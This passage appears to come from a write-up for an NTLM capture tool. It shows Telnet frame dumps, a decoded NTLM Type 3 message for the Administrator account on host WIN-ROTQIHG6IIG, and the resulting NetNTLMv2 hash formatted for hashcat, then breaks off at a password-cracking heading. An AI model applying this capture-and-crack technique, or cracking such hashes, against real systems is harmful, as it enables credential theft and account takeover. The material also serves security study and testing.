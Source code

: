 ```
Sent Frame 11
Received Frame 12 - NTLM Type 3 (465 bytes): FF FA 25 00 0F 00 02 C0 01 00 00 02 00 00 00 4E 54 4C 4D 53 53 50 00 03 00 00 00 18 00 18 00 AE 00 00 00 EA 00 EA 00 C6 00 00 00 1E 00 1E 00 58 00 00 00 1A 00 1A 00 76 00 00 00 1E 00 1E 00 90 00 00 00 10 00 10 00 B0 01 00 00 15 82 88 E2 0A 00 7C 4F 00 00 00 0F 5E CF 27 A8 A2 78 0D ED 5C 73 F3 03 E3 61 5F FA 57 00 49 00 4E 00 2D 00 52 00 4F 00 54 00 51 00 49 00 48 00 47 00 36 00 49 00 49 00 47 00 41 00 64 00 6D 00 69 00 6E 00 69 00 73 00 74 00 72 00 61 00 74 00 6F 00 72 00 57 00 49 00 4E 00 2D 00 52 00 4F 00 54 00 51 00 49 00 48 00 47 00 36 00 49 00 49 00 47 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 36 49 F8 DA E2 9C 4D 85 B3 1F 31 CF 78 5B 4F 01 01 00 00 00 00 00 00 31 A3 F7 3B D4 BD DB 01 CE 55 32 CC CD 64 AD 67 00 00 00 00 02 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 01 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 04 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 03 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 08 00 30 00 30 00 00 00 00 00 00 00 00 00 00 00 00 30 00 00 93 DC DD 10 7A E9 9F B9 F0 F1 8B AD AD 61 C5 76 A3 55 7C 60 7F 0B 8D 2F 70 68 8A 46 20 FC 12 52 0A 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 09 00 2A 00 74 00 65 00 6C 00 6E 00 65 00 74 00 2F 00 31 00 39 00 32 00 2E 00 31 00 36 00 38 00 2E 00 36 00 39 00 2E 00 32 00 31 00 31 00 00 00 00 00 00 00 00 00 D2 09 8A 43 A7 27 D6 75 8C F1 F6 CD CE 74 42 77 FF F0
NTLM signature found at position: 12
NTLM Type 3 Message:
  Signature: NTLMSSP
  Flags: 0xE2888215
  Negotiate Unicode
  Negotiate NTLM
  Negotiate Extended Session Security
  Domain: WIN-ROTQIHG6IIG
  Username: Administrator
  Host: WIN-ROTQIHG6IIG
  LM Response: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  NTLM Response: 38 36 49 F8 DA E2 9C 4D 85 B3 1F 31 CF 78 5B 4F 01 01 00 00 00 00 00 00 31 A3 F7 3B D4 BD DB 01 CE 55 32 CC CD 64 AD 67 00 00 00 00 02 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 01 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 04 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 03 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 08 00 30 00 30 00 00 00 00 00 00 00 00 00 00 00 00 30 00 00 93 DC DD 10 7A E9 9F B9 F0 F1 8B AD AD 61 C5 76 A3 55 7C 60 7F 0B 8D 2F 70 68 8A 46 20 FC 12 52 0A 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 09 00 2A 00 74 00 65 00 6C 00 6E 00 65 00 74 00 2F 00 31 00 39 00 32 00 2E 00 31 00 36 00 38 00 2E 00 36 00 39 00 2E 00 32 00 31 00 31 00 00 00 00 00 00 00 00 00
Global challenge before NTLM Type 2: 31 7C 02 AC 07 8A 3C 43
Hashcat NetNTLMv2 Format: Administrator::WIN-ROTQIHG6IIG:317c02ac078a3c43:383649f8dae29c4d85b31f31cf785b4f:010100000000000031a3f73bd4bddb01ce5532cccd64ad670000000002000c00570049004e0032004b00330001000c00570049004e0032004b00330004000c00570049004e0032004b00330003000c00570049004e0032004b003300080030003000000000000000000000000030000093dcdd107ae99fb9f0f18badad61c576a3557c607f0b8d2f70688a4620fc12520a0010000000000000000000000000000000000009002a00740065006c006e00650074002f003100390032002e003100360038002e00360039002e003200310031000000000000000000
Challenge used in hashcat format: 317c02ac078a3c43
  Session Key: D2 09 8A 43 A7 27 D6 75 8C F1 F6 CD CE 74 42 77
Sent Frame 15
Connection closed.
```

## Password Cracking with Hashcat

